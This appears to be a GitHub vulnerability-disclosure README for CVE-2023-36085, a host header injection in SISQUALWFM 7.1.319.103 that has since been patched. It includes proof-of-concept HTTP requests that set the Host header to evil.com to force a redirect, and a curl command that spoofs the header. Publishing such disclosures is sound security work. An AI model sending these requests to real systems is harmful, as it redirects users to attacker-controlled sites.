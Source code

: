 # CVE-2023-36085 SISQUALWFM Host Header Injection Vulnerability

This repository contains information related to a host header injection vulnerability discovered in SISQUALWFM version 7.1.319.103, which allows an attacker to manipulate webpage links or redirect users to a malicious site. This vulnerability was assigned CVE-2023-36085 and has been fixed in version 7.1.319.111 and above.

## Vulnerability Details

- **Exploit Title:** SISQUALWFM 7.1.319.103 Host Header Injection
- **Discovered Date:** 17/03/2023
- **Reported Date:** 17/03/2023
- **Resolved Date:** 13/10/2023
- **Exploit Author:** Omer Shaik (unknown_exploit)
- **Vendor Homepage:** [SISQUALWFM](https://www.sisqualwfm.com)
- **Version:** 7.1.319.103
- **Tested on:** SISQUAL WFM 7.1.319.103
- **Affected Version:** SISQUALWFM 7.1.319.103
- **Fixed Version:** SISQUALWFM 7.1.319.111
- **CVE:** CVE-2023-36085
- **CVSS Score:** 3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
- **Category:** Web Apps

## Proof of Concept

We provide a proof-of-concept scenario demonstrating the host header injection vulnerability, specifically targeting the `/sisqualIdentityServer/core` endpoint. This vulnerability allows an attacker to manipulate webpage links or redirect users to another site by tampering with the host header.

### Original Request

```http
GET /sisqualIdentityServer/core/login HTTP/2
Host: sisqualwfm.cloud
Cookie: <cookie>
...
```

### Original Response

```http
HTTP/2 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Location: https://sisqualwfm.cloud/sisqualIdentityServer/core/
...
```

### Intercepted Request (Modified to Redirect to evil.com)

```http
GET /sisqualIdentityServer/core/login HTTP/2
Host: evil.com
Cookie: <cookie>
...
```

### Response

```http
HTTP/2 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Location: https://evil.com/sisqualIdentityServer/core/
...
```

![Exploit Execution](https://github.com/omershaik0/Handmade_Exploits/blob/main/SISQUALWFM-Host-Header-Injection-CVE-2023-36085/redirect.png)

## Method of Attack

To exploit this vulnerability, an attacker can use the following `curl` command to modify the host header:

```bash
curl -k --header "Host: attack.host.com" "Domain Name + /sisqualIdentityServer/core" -vvv
```

## Disclaimer

This repository is for informational purposes only and should not be used for any malicious activities. The vulnerability has been responsibly disclosed to the vendor, and the issue has been resolved. It is crucial to follow ethical hacking guidelines and respect responsible disclosure practices when identifying and reporting vulnerabilities.
